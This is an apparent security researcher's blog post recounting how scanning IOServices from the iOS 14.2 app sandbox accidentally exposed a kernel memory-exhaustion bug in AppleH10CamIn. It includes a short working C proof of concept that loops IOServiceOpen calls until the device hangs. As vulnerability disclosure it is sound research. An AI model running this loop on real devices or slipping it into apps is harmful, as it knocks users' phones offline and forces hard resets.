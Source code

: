 # Exhaust EL1 memory from the app sandbox

It's always important to keep up with the accessible IOServices exposed to userspace, specifically those that reachable from the app sandbox. At the time, [Brandon Azad](https://twitter.com/_bazad) triggered a very powerful type confusion vulnerability in *H11ANEIn*, simply by iterating over IOServices and trying to get userclients by brute-forcing on possible types ([blogpost](https://googleprojectzero.blogspot.com/2020/11/oops-i-missed-it-again.html), [issue 2004](https://bugs.chromium.org/p/project-zero/issues/detail?id=2004)).

I wrote a similar functionality and executed it from the app sandbox on iPhone X iOS14.2 (18B92). This got me a list of all the userclients I can open from inside the app sandbox, and I kept on with my research. However, I noticed a weird phenomenon: when I executed my scanner with a larger range of values for type (brute-forcing on possible type argument to *IOServiceOpen*), the device stopped responding completely and blacked in and out nonstop. I narrowed it down and built this minimal POC to trigger this behavior:

```c
void interesting_poc(void) {
    kern_return_t err;
    io_connect_t shared_user_client_conn = MACH_PORT_NULL;
    
    io_service_t io_service = IOServiceGetMatchingService(kIOMasterPortDefault, IOServiceMatching("AppleH10CamIn"));
        
    if (io_service == MACH_PORT_NULL) {
        perror("Failed to get service port\n");
        return;
    }

    printf("got service: 0x%x\n", io_service);
    
    for (size_t i = 0; i < 0x40000000; ++i) {
        err = IOServiceOpen(io_service, mach_task_self(), 2, &shared_user_client_conn);
        if(err == KERN_SUCCESS) {
            printf("got userclient with type == 0x%zx\n", i);
            return;
        }
    }
    printf("done\n");
    return;
}
```

The only way to get the device back on into a useable state was to do a hard reset. After the device turned back on, I saw crashdumps of many EL0 processes that occurred when the device was in an unstable/not responding state. Among those, there were interesting crashes (actually, a lot of crashes) of privileged processes in EL0 all over the place, and many non-interesting ones, such as NULL derefs, intentional SIGABRTs/kills, etc..

It was quite funny for me. My goal was to just get a list of accessible IOServices I can interact with from the app sandbox, so I could start reversing those and find vulnerabilities (TL;DR - more blogposts to come :P ). I didn't expect to trigger a bug by mistake. But clearly, once such a thing does happen, we can't ignore it :) So, I reversed the flow of *AppleH10CamInUserClient* creation (which is very short and straightforward) and found the bug in the binary. I wrote this (short) blogpost because it's a funny story to tell and I figured out it might be nice to share.
